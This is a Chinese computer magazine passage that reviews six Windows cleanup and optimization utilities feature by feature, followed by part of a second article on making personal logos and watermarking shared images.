如图1所示，Ashampoo WinOptimizer主界面即展现出其提供的四种工具，对系统的清理优化功能皆通过此类工具实现。

###### （1）“系统清理工具（Cleaning Tools）”之磁盘垃圾清理功能

单击主界面“Cleaning tools”按钮，即可弹出系统清理工具提供的选项，包括对磁盘的清理优化（Drive Cleaner）、对注册表垃圾的清理（Registry Cleaner）以及网络垃圾的清理（Internet Cleaner）。“Drive Cleaner”选项功能可完成对磁盘的垃圾扫描和清理工作。单击该选项功能后可进入功能主界面。在该界面中，用户可单击“Settings”选项按钮设置需扫描磁盘。选择完毕后单击“Scan and Delete”按钮扫描、删除垃圾文件。

单击界面左边的“细节菜单（Details）”中的“All”选项可以选择将扫描出的垃圾文件信息显示在界面右侧的列表框中。在列表框中选中欲删除的文件，单击“Delete”按钮将其删除即可。

###### （2）“系统协调工具（Tuning tools）”之开机程序优化功能

Ashampoo WinOptimizer提供的“系统协调工具”包括系统自程序的管理优化功能（StartUp Tuner）、系统进程管理（Process Manager）、优化网络链接（Internet Tuner）、过滤IP地址（IP Spam Blocker）和一些Windows系统提供的标准工具功能（Windows Standard Tools）等。在此用户可以根据需要对一些软件进行个性设置，更安全简洁地使用系统。

用户在日常操作系统时，常会将一些程序自动添加到开机启动项，从而使得开机过程十分冗长。本款软件提供的“StartUp”选项可实现系统自程序管理，完成优化开机程序功能。此项功能即可使用户轻松摆脱开机困扰。用户可单击相关选项如添加/删除启动项来更改开机启动项目，而不再需要进入到系统注册表中进行修改。

###### （3）“文件工具（File tools）”之文件加密、解密功能

Ashampoo WinOptimizer提供对文件的加密和解密功能。单击“文件工具（File Tools）”按钮可在功能列表中找到该项功能。此处“文件工具”除对文件进行安全性设置外，还可以实现对硬盘空间的管理以及对文件的粉碎、拆分和合并等功能。

Decrypter”按钮可以进入该功能主界面。如图2所示，单击“Encrypt file”选项按钮可以对文件进行加密。只需先选择欲加密文件，并对其进行密码设置即可。同时可选择在设置密码后是否删除原文件等。解密文件操作与其类似，在此不做赘述。



###### （4）“系统调整工具”之系统图标设置功能

Ashampoo WinOptimizer的“系统调整工具（Tweaking Tools）”提供对系统图标的集中更改设置功能。此工具也同时提供查看系统软硬件信息等功能，如有需要可自行进行设置。
用户在进入该项功能界面后，可选择对盘符、软件和文件夹等进行图标更改。选中欲更改图标项目后，单击“Change icon”按钮后挑选合适图标即可。

###### （5）“一键优化（one-click-optimizer）”功能

该项功能是本款软件的一大特色，充分展现了本款软件一键式傻瓜操作的特点。单击该功能按钮后，默认自行清理磁盘垃圾文件、注册表垃圾和网络浏览记录等废弃无用文件。用户也可选择进行删除，其操作与在“系统清理工具”中无异。

#### 二、忠诚助手——Windows 清理助手 2.3.4.7.0907(891)

- 软件大小：3750 KB
- 软件性质：免费版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP/2003/Vista
- 推荐感言：麻雀虽小，五脏俱全。绿色透明，实用方便。
- 下载链接：http://www.onlinedown.net/soft/52983.htm

##### 1. “Windows清理助手”简介

'Windows清理助手'可以说是“麻雀虽小，五脏俱全”。仅为3 MB左右大小，提供了丰富的系统清理功能。包括清理有驱动保护的恶意软件、清理浏览器记录功能，快捷的粉碎、提取、备份、恢复文件和卸载、清除程序及备份、清理磁盘的功能等。本款软件具有独有的系统清理技术，可以彻底清除恶意软件。且其软件设置十分人性化，用户具有非常强大的主动权。其引擎和脚本分离，清理操作对用户完全透明，其用户接口为开放式，用户可进行个性化清理设置。同时用户可自己选择查杀项，完全掌握主导权与控制权。此外，用户可自定义脚本文件，实现对一些特殊软件的清理，且可与所有用户共享使用。'Windows清理助手'的另一优点则在于其及时性，其更新脚本库的速度非常快，用户可随时获得更为强大的清理能力，且提供“论坛求助”和“在线指南”功能，让用户可以彻底轻松实现系统清理。

##### 2. “Windows清理助手”功能简介

下面一起来看一下本款软件如何实现其方便实用的系统清理功能。笔者提供了下载地址，可参照下载。本款软件更新较快，用户朋友也可自行搜索新版本。下载安装十分简单，在此不做赘述。


安装过“Windows清理助手”后，即可进入其使用界面（图3）。本款软件的背景颜色为柔和的草绿色，并提供“简洁模式”和“高级模式”两种模式可供选择。如上图为“高级模式”。在该界面中用户可根据需要自行进行“定制扫描”、“清理相关”，且同时本软件在此提供“论坛求助”和“在线指南”以作为用户使用向导。用户欲进行操作则单击目标按钮即可。
在简洁模式中只提供“快速扫描”功能，用户在此模式不能进行个性设置。如欲设置，则需单击“高级模式”切换回原界面。

###### （1）软件设置

'Windows清理助手'提供非常丰富的用户自控功能。在本软件的主界面，用户可单击右上角的“设置”按钮，对软件进行自定义设置，包括是否检查更新等。

###### （2）扫描并清除恶意软件

本功能为“Windows清理助手”的主要性能之一。运用此功能，可轻松实现对有驱动程序保护的恶意软件的清除。
此项功能的实现需单击“高级模式”界面中的“定制扫描”按钮来实现。单击该按钮后，则出现用户自定义界面。用户在此可以设置扫描范围与扫描对象。其扫描范围的设置包括“完整扫描”、“系统区扫描”和“设定扫描路径”。完整扫描所需时间最长，日常的维护并不需要进行全盘扫描，只需要设定系统区或者扫描路径即可。其扫描路径的设置可以由用户自行输入后单击“添加”按钮即可。对于扫描对象的设置，用户可以自行选择扫描高、中、低风险的对象或者进行全部扫描。也可以通过进行设置文件扩展名来进行过滤式选择。一般说来，全部扫描所耗费时间较长，日常维护中推荐用户自定义扫描对象。
全部设置完毕后，用户单击“开始扫描”按钮实现清理工作。



扫描结束后，“Windows清理助手”的界面中将会弹出有关扫描结果的信息列表（图4）。包括检查到的恶意软件、不需要的插件等，在此列表中会显示相关软件的注册信息、风险程度高低以及“Windows清理助手”对其的操作。用户可通过单击扫描列表结果中的软件名称，在弹出的菜单中选择相应的菜单项完成对软件的清理工作，或者选中列表中软件前的复选框，单击“执行清理”按钮完成操作。如图4所示，用户对扫描结果设置的是“默认忽略”，也可以将其更改为“默认清理”，这样本款软件在扫描的同时即可将该软件自行清理。

###### （3）“清理相关”功能

'Windows清理助手'在主界面中提供了一项“清理相关”的功能，用以实现清理浏览器记录，快捷地粉碎、提取、备份、恢复文件和卸载、清除程序及备份、清理磁盘等。

单击主界面“清理相关”按钮后，在弹出的界面中可看到其提供“清理”、“安装卸载”、“白名单”、“自定义对象”、“隐藏搜索”、“备份恢复”功能操作。现就对最经常使用的“清理”及“安装卸载”功能进行简介。

在“清理”功能中，用户可进行“粉碎文件”、“提取文件”、“修复LSP”、“磁盘备份”、“清理磁盘”的操作。事实上这几项功能是对Windows系统本身自己提供的系统清理功能的快捷调用。“粉碎文件”只需要输入文件路径，注意此处文件粉碎后不可恢复。“提取文件”则可实现提取NTFS加密之外的所有文件。当系统无法正常访问网络时可尝试“修复LSP”。

“磁盘备份”和“清理磁盘”功能则可看作是Windows系统本身这两项功能的快捷方式。

在“清理”功能中，用户也可以对浏览器的痕迹进行清理。包括清除“地址栏下拉列表”、“临时文件”、“表格记录”、“历史记录”、“保存的密码”、“cookies”等。用户选中所需清理项目前复选框后，单击“开始清理”即可。此功能可保护用户的上网隐私，让你浏览的痕迹消失无踪。

在“安装卸载”功能中，用户可以简易地实现对系统已经安装的一些程序的卸载以及一些废弃程序的删除，从而省去在Windows“控制面板”中卸载程序的麻烦。其操作十分简便，在此功能中提供的程序列表里选择欲删除或卸载的程序，单击“卸载”或“删除”按钮即可。

#### 三、清洁专家——电脑垃圾清理专家专业版7.15

- 软件大小：3083 KB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP/2003
- 推荐感言：全面快速清除系统垃圾，最大程度优化系统性能。
- 下载链接：http://www.onlinedown.net/soft/38332.htm

##### 1. “电脑垃圾清理专家”简介

“电脑垃圾清理专家”是一款绝对不辱其“专家”之名的系统维护软件。

##### 2. “电脑垃圾清理专家”功能介绍



安装过“电脑垃圾清理专家”后，运行该程序，即可弹出如图5示界面。主界面上展现了本软件的如“清理系统垃圾文件”、“流氓软件智能清理”、“安装软件智能卸载”、“清除系统历史记录”、“系统快速优化工具”、“快速清理注册表垃圾”、“清理零字节垃圾文件”、“系统自启动程序管理”、“IE浏览器管理程序”等九种主要功能。下面，笔者将对其中几种特色的功能进行简单介绍。

###### （1）“清除系统垃圾文件”功能

本款软件提供的“系统垃圾文件清理”功能可帮助用户删除系统中不需要的以及过旧的垃圾文件。可根据用户的自定义选择自动扫描隐藏在系统内各个角落的废弃文件，扫描迅速，方便快捷。

在本软件主界面单击“清理系统垃圾文件”按钮即可进入该功能界面。用户在使用时首先选择搜索路径，并在“扫描选项”中确定待扫描的垃圾文件的范围。限制范围后单击“开始查找”按钮即可。

开始自动查找功能后，会将查找结果以列表的方式展现在“扫描选项”中的列表框里。用户可在列表框中看到有关文件的相关信息。单击“全部清空”按钮可将列表框中信息清空，但并未删除。如欲删除文件，可单击选中该文件后，单击“删除到回收站”或“直接删除”按钮将该文件删除。

###### （2）“快速清理注册表垃圾”功能

在使用电脑的过程中，用户常常会因为安装、卸载一些程序或操作不当使系统产生一些冗余信息及错误信息。表面上看起来这些信息并没有干扰到电脑的正常使用，但事实上，其隐藏在系统的角落和注册表中，也构成了对用户进行系统操作的隐患。“电脑垃圾清理专家”提供了一项“快速清理注册表垃圾”功能，可快速有效地扫描到一些冗余信息、注册表中的错误信息，排除隐患。

“快速清理注册表垃圾”的功能通过在软件主界面单击其相应按钮实现。进入该功能界面后，用户需通过对“扫描选项”的设置，来选定扫描垃圾的范围。用户可选择项除冗余和错误信息外，还可以选择是否扫描WinZip、WinRAR等压缩软件的打开记录及Word文档的打开记录，以增强对用户隐私的保护。

确定扫描选项后，单击“扫描垃圾”按钮即可展开对注册表垃圾的清理工作。扫描到的可清理文件将在“扫描结果”下方的列表框中显示出来。用户可单击“删除垃圾”将欲清除文件删除。

###### （3）“清理零字节垃圾文件”功能

“清理零字节垃圾文件”功能是本款软件提供的一个细分的系统垃圾清理功能。由于在日常操作中，常常会产生一些零字节文件，这些文件的存在并无任何价值，运用此功能可将这样“看似正常”但实则无任何意义的文件找出并删除。实现该功能的操作方法，在主界面单击“删除”按钮后，进入到该功能的界面，选择需要扫描的路径盘符，单击“扫描”按钮后即可开始寻找此类零字节文件。在盘符路径下方的列表框中将会将该类文件一一列出，用户单击“删除”按钮后即可将此类文件一扫而光。

###### （4）“系统自启动程序管理”功能

“电脑垃圾清理专家”除提供对系统垃圾的清理功能外，也提供一些对系统进行的优化设置。如本处介绍的“系统自启动程序管理”功能。用户在使用电脑时，常常会在安装软件的同时也将其添加到启动项目中去，有时即使将这些程序卸载，其启动项仍然保留在注册表中。每次开机启动都耗时良久，十分恼人。运用本款软件的本功能则可使用户不用打开注册表进行修改也可更改、优化开机程序。



单击主界面该项功能按钮后，即可进入如图6所示该功能界面，界面右边的列表框中显示出目前系统的开机启动项目，用户可通过项目前的复选框的选中与否来添加或减少开机启动项，有不需要的项目，则可选中后单击“删除项目”按钮将其删除。

#### 四、卸王之王——DirectX随意卸 3.96

- 软件大小：1349 KB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Windows 2000/XP/2003
- 推荐感言：卸王之王，完璧归赵，让系统完好如初。
- 下载链接：http://www.onlinedown.net/soft/181.htm

##### 1. “DirectX随意卸”简介

“DirectX随意卸”是一款非常好用的卸载软件。其运用“二次两路卸载”技术，可以把DirectX组件连根拔起，卸载能力无可匹敌。与其他同类软件相比，“DirectX随意卸”可真正做到完全彻底卸载，一个不漏。而和同类软件相比，本款软件的另一优势则是采用“动态智能修补”技术，可保证卸载或还原后系统及注册表不出现任何错误，可以说是“完璧归赵”。本款软件具有许多特殊的功能。如其独具“检查DX组件”功能，可迅速检查出被其他设计不够完善的DX卸载工具卸载过但又无法通过常规安装恢复的DX组件；其“快速备份”功能可以在5秒钟内备份操作系统原始的DirectX；“检查卸载是否彻底”功能，使用户更清晰地了解DirectX的卸载状况。

##### 2. “DirectX随意卸”功能简介

“DirectX 随意卸”是一款共享软件，安装后需注册方可使用其提供的全部功能。笔者仅就该软件3.96版本的未注册版本进行其功能及操作简介。



如图7所示，为“DirectX随意卸”的主界面。用户可在此对DirectX组件进行直接卸载、备份、还原及检查等操作。

1.  “卸载DirectX” 功能
    实现本功能十分简单。单击主界面“卸载DirectX”按钮，即可进入该功能界面。用户可在此选择卸载方式，本软件提供的卸载方式包括“卸载后还原”及“仅卸载”两种。选中后单击“卸载”按钮即可执行操作。此处亦可检查用户曾进行过的卸载、还原操作是否彻底（注意非注册用户不可使用本功能）。
2.  “备份/回滚” 功能
    单击主界面中“备份/回滚”功能按钮即可进入该功能界面，在此可选择所要进行的操作。可选择备份操作系统的原始DirectX版本，也可回滚至原始版本的DirectX（此处回滚至原始版本需要通过安装盘进行）。
3.  “DX诊断工具” 功能
    “DX诊断工具”功能是“DirectX随意卸”独具的一项功能。运用此工具可查看有关DirectX组件和安装在系统上的驱动程序的详细信息。使用本工具可以测试功能、诊断问题并更改系统配置，使其达到最佳运行状态。
    利用本工具收集到的有关DirectX组件和安装信息呈现在一系列的页面上。在收集信息过程中，用户如知道是哪个部分引起的错误，可以单击界面上方的相应选项卡进行切换，否则也可单击界面下方的“下一页”按钮按顺序查阅每一页。
    运用本诊断工具可以诊断问题。单击“显示”选项卡后欲检测DirectX功能，则单击“测试DirectDraw”或“测试Direct3D”按钮，该软件则自动执行检测。其检测分条进行，每一条检测后都会提出对该条测试是否成功的询问。用户按提示操作即可。用户可对检测信息进行保存，单击“保存所有信息”按钮即可。其他检测类似，在此不做赘述。

#### 五、大师登场——系统优化大师 2007 build 10.10

- 软件大小：1773 KB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP/2003
- 推荐感言：操作便捷，功能丰富。
- 下载链接：http://www.onlinedown.net/soft/36770.htm

##### 1. “系统优化大师”简介

“系统优化大师”一直是系统优化类软件中的翘楚。这款软件使用简单，傻瓜式便捷操作，可迅速达到系统优化目的，全方位、高效、安全提高系统性能。
“系统优化大师”性能丰富。如其提供“电脑优化设置”，包括桌面优化、菜单优化、网络优化、系统优化性能；“垃圾清理”功能则包括对垃圾文件的清理、注册表项的清理、缓存文件的清理等。此外，可清除恶意软件，进行木马免疫设置；还具有“选项设置”功能，可进行系统信息检测、查看系统禁用项目、进行系统个性及项目设置；“系统优化大师”提供的扩展功能还包括备份恢复系统、扩展清理功能、备份驱动程序和一些实用的功能如桌面设置、时钟万年历设置等。

##### 2. “系统优化大师”功能简介

安装该软件后，即可进入其主界面，如图8所示。如此之多的性能笔者不能面面俱到地一一详解，现就其比较有特色且十分好用的几项功能为各位用户朋友做个简单的介绍。（本软件为共享版本，需注册后方能完全使用其提供性能，笔者就2007 build10.10版本进行简介。）

1.  “电脑优化”功能之“桌面优化”
    作为“系统优化大师”，本款软件最为优秀的性能毫无疑问是其优化性能。用户在主界面单击“电脑优化”选项后选择“桌面项目优化”即可在界面右方弹出可供选择的优化项目列表，用户可通过选中优化项目前的复选框与否来选择是否优化该项目。选择完毕后单击“确认优化”按钮即可。此处提供的可供优化的桌面项目十分丰富，其中一些如“禁止名称‘快捷方式’四字”、“任意定制窗口颜色”等功能十分有趣且好用。



“系统优化大师”提供的其他优化性能如菜单项目优化、网络项目优化、系统项目优化等的操作方式与桌面项目优化性能大体相同，在此不做赘述。

###### （2）“垃圾清理”功能之“清理恶意插件”

作为系统优化类软件的翘楚，“系统优化大师”自然少不了重要的清理系统垃圾尤其是清理恶意插件的功能。本软件支持清理目前比较流行的23种软件，不过有些插件比较顽固，引用了系统必需的相关进程，清理后会重新建立，导致有时无法干净利落地将其一次清理，还需要在DOS系统下进行处理。不过对付大多数的软件，“优化大师”还是十分得心应手的。

单击软件主界面“垃圾清理”按钮，选择“清理恶意插件”选项后，即可弹出该功能主界面窗口。用户可检测自己的系统是否含有选中的列表框内提供的插件，从而进行恶意软件的清理。

除了对已经安装到系统中的恶意插件进行清理外，“系统优化大师”还提供“木马免疫设置”功能。可对恶意插件进行木马屏蔽。直接屏蔽恶意插件及木马给电脑免疫，真正实现“一劳永逸”。其功能则可通过单击“恶意软件清理”主界面窗口的“清理相关说明”选项卡实现。如图9所示，在该选项卡界面中，单击“点击这里设置电脑免疫”，即可进行相关设置。

“系统优化大师”的木马屏蔽设置分为“恶意网页免疫”与“恶意插件免疫”。如图9所示，为“恶意网页免疫”的设置界面。在此用户可选择免疫的项目或对选中的项目取消免疫。

在“恶意插件免疫”选项卡界面，列表框中显示插件名称，所处状态及是否被免疫。用户可在此选择免疫或取消免疫的插件。

###### （3）“选项设置”功能之“系统项目设置”

单击“选项设置”按钮，可以对系统项目进行设置。选择对应选项，即会在界面右边显示出用户可以进行设置的选项。其中提供了一些非常实用的设置如“备份或者恢复注册表”、“文件批量序列重命名”、“导出本机浏览收藏夹”等功能选项。用户如欲设置，则单击该项目，按提示继续操作即可，十分简单好用。

###### （4）“功能扩展”之“扩展清理功能”

“系统优化大师”提供了一些较为零散的系统优化清理功能，放置在“功能扩展”中。如“扩展清理功能”包括“清理浏览器插件”、“清理系统进程加载项”、“清理系统内存”、“清理系统安装程序项”、“清理无效的ActiveX和COM项目”等。

笔者认为“清理系统内存”功能十分好用，可以便捷整理系统内存，节约系统空间资源。其操作方式非常简便，在内存整理的界面中单击“内存整理”按钮，软件将自动完成对系统内存的分析和整理，空余出更多的空间和资源。

###### （5）“功能扩展”之“更多实用功能”

除在上文中介绍过的基本优化系统性能外，“系统优化大师”还提供了非常丰富的扩展功能，其皆为一键式操作，既可看作是系统的一些基本操作的快捷方式，也可看作是“玩”系统的一种方法。在“更多实用功能”选项中，提供了如“开机程序优化”等十六种操作性能。用户可在此一键式设置桌面、弹出光驱、查看日历、检测邮箱、上网计时和开启桌面时钟等，功能丰富，操作方便。

#### 六、无敌管家——超级兔子魔法设置8.1

| 项目 | 内容 |
| :--- | :--- |
| 软件大小 | 14176 KB |
| 软件性质 | 免费版 |
| 软件语言 | 简体中文 |
| 适用系统 | Windows 9x/ME/NT/2000/XP/2003 |
| 推荐感言 | 可信赖的兔子软件，将美好打造到底。 |
| 下载链接 | http://www.onlinedown.net/soft/2636.htm |

##### 1. “超级兔子魔法设置”简介

“流氓兔”、“自杀兔”都很有名——那当然是就搞破坏而言。如果论创造美好，大概谁也没“超级兔子”有名。
“超级兔子魔法设置”是一款十分好用的完整的系统维护工具，它不仅可清理隐藏在系统大多数文件、注册表中的垃圾信息，兼具强大的卸载功能，可专业卸载软件在电脑中的所有记录，同时支持上网保护和系统个性优化设置。运用本软件，可轻松打造个性化完美系统。

“超级兔子”共有8大组件，“超级兔子清理王”可清理大多数文件垃圾；“超级兔子上网精灵”和“超级兔子IE修复专家”则是上网的好帮手；运用“超级兔子安全助手”可打造一个完全安全、私人的系统，充分保护用户隐私；“超级兔子系统备份”则是国内唯一能完整保存Windows XP注册表的软件，可彻底解决系统上的问题；“超级兔子系统检测”和“超级兔子任务管理器”可实现检测系统软硬件工作状态，查找、诊断问题及随时查看、中止系统运行程序功能；而运用“超级兔子魔法设置”，则可以优化、设置系统大多数的选项，打造一个属于自己的完美Windows系统。

除了提供丰富的系统优化、维护功能外，“超级兔子魔法设置”还提供了一系列的实用功能如桌面设置、桌面搜索等，更方便地帮助用户使用系统。此外，本款软件的更新非常快，并提供多种优秀的系统工具软件下载链接，可以满足绝大多数用户的操作使用。真可谓是一个“考虑全面，服务周到”的“无敌管家”。

##### 2. “超级兔子魔法设置”功能简介

用户朋友可笔者提供的下载地址下载并安装本款软件。安装完毕后运行则可进入软件主界面如图10所示。作为一款完整的系统维护工具软件，“超级兔子魔法设置”涵盖了包括系统优化、垃圾清理、个性设置、实用工具等众多方面的丰富性能。由于篇幅有限，笔者不能将其一一列举，现就其几项特色性能进行简单介绍。

对IE广告的免疫和网址过滤等功能。

“超级兔子上网精灵”可以对“IE广告”进行个性设置。用户可设置是否禁止IE弹出窗口、广告或IE插件安装提示。推荐使用“禁止IE弹出窗口”和“禁止漂浮广告”功能，这样用户可以免除被大多数的广告窗口的干扰。

“超级兔子上网精灵”提供“网址过滤”功能，用户可在此对部分网址设限，以阻止或允许使用本台电脑用户浏览该地址，保护系统使用安全。这也是家长监督并保护未成年的孩子上网安全的一种好方法。

一般说来，本款软件只默认禁止访问含有色情标题或文字的网站，用户可通过该项目前的复选框的选中与否来实现或取消该功能。用户对于特殊的网址的设限则需通过单击“详细设置”按钮进行添加。设置完毕后单击“确定”即可。

###### （1）“超级兔子魔法设置”功能

“超级兔子魔法设置”功能提供了很多的系统隐藏参数，用户可据此调整Windows使系统更适合自己的使用。

在软件主界面单击“超级兔子魔法设置”组件按钮即可进入该功能界面。在此界面中，用户可以进行对启动程序的设置，对软件图标更换、操作声音更改等个性化设置，对菜单项、桌面及系统信息的设置，对文件及媒体的自动或手动功能设置，以及登录网络时的基本浏览设置等。

用户可运用本软件的魔法设置功能对系统进行“个性化”设置。包括对输入法顺序的调整、OEM信息的输入、IE背景及开机图片的外观设置，文件夹光标及光驱音效的更改，以及键盘的个性设置等。例如对输入法顺序的调整，用户可选中输入法后，按“上移”或“下移”按钮调整其顺序，调整后单击“应用”按钮即可。

在对系统的“个性化”设置中，用户可以对IE背景图案以及开机画面进行设置。单击“浏览”按钮按路径进行选择即可。注意此处并不支持所有格式图片文件。

用户也可以在此处进行一些个性文字设置，如可将任务栏的时间更改为12小时或24小时制，也可将“开始”按钮上的字更改为用户喜欢的词语。同样，设置完毕后单击“应用”即可实现操作。

###### （2）“超级兔子上网精灵”功能

“超级兔子上网精灵”功能可帮助用户更安全、健康地登录网络。可以禁止IE广告弹出，保护IE不被恶意网站修改，同时可以禁止访问色情网站，进行上网时间控制。既可以满足成年用户上网的安全需要，又可满足对未成年人上网的控制、保护需要。

在软件主界面单击“超级兔子上网精灵”组件按钮即可进入该功能界面。在此可以进行对IE的保护和加强功能设置，如

###### （3）“超级兔子安全助手”功能

使用“超级兔子安全助手”组件，可以使用户电脑、硬盘、文件及文件夹不被其他人使用，充分保护用户隐私，同时也可在此组件功能中删除一些顽固文件。注意本处虽提供一些密码设置和保护功能，但其保密系数并不十分高，仅适合对安全性要求不高的用户和在非重要场合使用。

“超级兔子安全助手”具有“伪装文件夹”功能，用以进行对文件夹的保护。其原理较为简单，即将普通文件夹伪装成为“控制面板”的样子以混淆视听。其实现方式也十分简单，单击“装入文件夹”按钮后选择欲伪装的文件夹，选中后单击“下一步”即可。欲取消保护则单击“取消文件夹”按钮实现该功能。

运用“超级兔子安全助手”可以对文件进行“加密”，以增强文件安全性，保护用户个人隐私。实现该操作用户需先装入文件。单击“加入文件”按钮将欲加密文件添加至列表框，单击“下一步”可对其进行密码设置。也可同时对多个文件进行密码设置，将多个文件都添加到列表框后再单击“下一步”按钮进行操作即可。注意当对多个文件同时进行加密时，密码必须相同。如欲设不同密码，需单独设置。

###### （4）“超级兔子系统检测”功能

“超级兔子系统检测”组件可实现对系统信息的收集，对软硬件进行故障诊断、问题分析和系统测试等。运用此功能，用户更容易掌握电脑的软硬件信息，“明明白白用电脑，轻轻松松找问题”。

“超级兔子系统检测”除提供对系统信息如CPU信息等收集外，还可以对系统进行“速度测试”，包括整机速度测试、CPU速度测试、3D速度测试和硬盘速度测试等，测试完毕后可以标准速度进行对比评分。用户可通过评分更清楚地了解电脑的状态。一般说来整机测试时间最久，但因各用户使用情况不同而异。

“超级兔子系统检测”的“系统检测”功能包括对显示器、键盘按键、文件系统进行检测，同时可以快捷方式调用“磁盘碎片整理”，整理碎片文件，更有效利用磁盘空间。

###### （5）“实用工具”之“超级兔子桌面秀”

“超级兔子魔法设置”软件除提供八大功能组件外，还提供了一些实用的小巧工具。下面笔者就这些工具选取一二进行简介。

“超级兔子桌面秀”是一款可将日历、时钟、天气预报、门户网站最新新闻等信息以小窗口形式罗列在桌面上的实用工具。其窗口十分美观，呈半透明化，并不影响用户的其他正常操作。用户欲使用本工具功能则单击“超级兔子桌面秀”选项即可，欲关闭则在任务栏图标中单击鼠标右键，选择“关闭”菜单项即可。

###### （6）“实用工具”之“超级兔子桌面搜索精灵”

“超级兔子桌面搜索精灵”是本款软件提供的另外一个非常实用的小工具。用户单击该工具选项后，桌面上即可弹出一个搜索条。此搜索条则为精简版的网站（百度、Google、一搜）搜索工具。运用此工具条用户可以搜索网页、图片、新闻、MP3等。用户可将其设置为开机自动启动，不必打开浏览器即可轻松搜索信息。

综述：在上文中，笔者简单介绍了六款比较实用的系统清理、优化软件。其性能各有千秋，如WinOptimizer具有很强的快速搜索优化能力，“Windows清理助手”可由用户进行个性设置清理，“电脑垃圾清理专家”可专业、高效地清除隐藏在系统角落的各种文件碎片和系统垃圾，“DirectX随意卸”则可以使用户更完整简便地完成对于DirectX组件的卸载和恢复，至于“系统优化大师”和“超级兔子魔法设置”，则是非常好的完整的系统维护工具。用户可根据需要选择适用的软件，对自己的电脑进行一番“扫除”，让你的小电不仅看上去很美，用上去也很美！

### 版权所有 满盘文件带LOGO
◇文/狮子王

随着“保护知识产权”意识的增强，越来越多的普通人都在关注：如何让自己心血的“结晶”不轻而易举地变成他人的“垫脚石”或获取利益的工具。但随着互联网的发展，全世界间共享文字、声音、图片等资源竟如此的简单，当我们发布一个作品之后，如何才能向世界宣布：它是我的原创！？赶快添加LOGO吧！

-   一、获取LOGO的途径
说起“LOGO”相信大家都不会陌生，其实就是“标志”的意思，既可以是文字，也可以是图片，在广告、网站中经常会见到，而且越是大公司，LOGO越简单明了、寓意深刻。而对于普通用户，我们怎么才能得到属于自己的LOGO呢？
途径一：网上轻松DIY
制作LOGO可是一门很大的学问，不仅要求创作者拥有一定的创意、设计能力，而且还要对色彩、字体的搭配应用驾轻就熟。但对于普通用户来讲，也许你所需要的就是自己的网名、网址，甚至E-mail地址等文字制作的LOGO，若是这样就无需借助各种设计软件了，直接来互联网即可搞定！

当前提供此服务的网站很多，比如“LOGO在线制作”网就提供类似的服务，同时也支持中文。打开http://www.logomaker.cn/，网页左侧的功能列表中详细列出了该网站支持的所有LOGO制作功能，比如中文LOGO、动态LOGO、E-mail地址LOGO等等，而且右侧页面相应地给出了制作效果图例，可以很方便地选择最为钟情的那一款LOGO。

比如现在进入“中文LOGO在线制作”功能，首先在“LOGO文本”、“LOGO网址”中输入个人需要的文字，然后调整字体、边框、颜色、布局、背景等参数；最后点击“创建我的LOGO”按钮从右侧观察预览。如果对当前的LOGO效果不甚满意，可以对所有的设置参数进行调整后再次预览，当获得满意效果后右击该LOGO，选择“图片另存为”就能保存到本地硬盘了（图1）。

-   途径二：用软件，便捷、效果两相宜
如果你对LOGO的效果有一定的要求，而在线LOGO制作网站又无法满足，那就需要借助软件来实现了。当然，对于我们普通用户来讲就不必使用Photoshop、firework甚至illustrator等专业软件了，来试试AAA LOGO吧。
AAA LOGO是一款功能强大的Logo设计软件，它提供了100余种模板，2080多种素材，而且所有的素材都是矢量图，可以方便地放大缩小，更重要的是，它的操作十分简单，下面我们就以制作个性“电脑爱好者”LOGO为例来与之亲密接触：

-   第一步：制作中文文字图片。
由于AAA LOGO不支持中文字体，现在将要制作的LOGO需要使用中文，因此首先运行系统自带的画图程序，输入“电脑爱好者”这五个字，然后根据个人喜好设置字体以及大小、颜色等等，最后另存为JPEG格式图片备用。
第二步：选择模板。
运行AAA LOGO，首先会提示需要选择哪一款模板，我们可以通过“Next Page”（下一页）、“Previous Page”（上一页）按钮来切换不同的模板效果页面进行挑选，当找到满意的模板后双击它即可进入AAA LOGO软件并打开了。

-   第三步：个性化元素。
由于我们利用了模板来制作LOGO，你也许对模板中某些素材不是很满意，现在只要从工作界面中点击想要修改的素材，然后点击上方的“Shape”按钮即可打开自带的素材库，从中选择一款最心仪的图案，最后在下方的“颜料盒”中设置好颜色就行了（图2）。
另外，当需要修改默认的英文文字时，只要选中该文字，然后点击“Text”按钮，输入“www.cfan.com.cn”后设置字体的样式、大小、间距等参数，点击“确定”按钮后就添加到了LOGO中，最后依照上法设置颜色即OK了。
第四步：导入文字图片。
修改了默认的模板，现在就可以导入我们开始制作的中文文字图片了：依次点击“文件→导入图像”，将刚刚保存的“电脑爱好者”素材加入进来，最后用鼠标左键按住后调整一下位置即可。
第五步：导出与处理。
当设置完毕，点击“文件→导出LOGO图像”就可以保存了，这里支持PNG、GIF、JPEG等多种格式，大家可以根据自己的需要进行选择。不过，这样制作的LOGO图片带有很大的白色背景，因此可以使用Photoshop8.0制作成无背景的图案。方法极其简单：用Photoshop8.0打开LOGO图片，从工具箱中选择“魔术橡皮擦工具”，将“容差”调整到“20”左右，然后将橡皮指针移动到LOGO背景上点击一下后保存即可。

来看看笔者作品的最终效果吧（图3）。

小提示 为了方便以后的使用，建议大家将制作好的LOGO多保存几种格式，比如JPEG、BMP、GIF等等。而尺寸方面没有固定要求，从小到大多保存几个，以能看清图案、不失真为准。

#### 二、打造文件带LOGO

现在我们已经拥有了属于自己的LOGO文件，下面就跟着笔者给互联网共享中常见的几种文件格式打上自己的“烙印”。

### 1.图片

随着博客、网络相册的流行，越来越多的朋友将自己拍摄的图片张贴到了网上；还有一些朋友制作了不少的器材、软件使用教程，图文并茂地发布出去，可用不了几天你就会发现，无数的论坛、博客中都出现了同样的内容，但绝少注明“引用”的出处，尽管我们的初衷就是“分享”，但“被盗”的感觉也很不爽，痛定思痛，还是给每张图片以“水印”的方式打上LOGO标志吧。当前，能给图片添加水印LOGO的软件很多，而“轻松水印”无疑是其中的佼佼者，不仅是中文界面，而且使用方法也很简单，下载地址：http://www.newhua.com/soft/41721.htm。
第一步：创建模板。为了能批量完成给多张图片添加水印，首先应该创建自己的模板：运行程序，依次点击“工具→模板管理器→新建”，在弹出的“Enter Name”对话框中输入“cfan”创建一个新的模板。
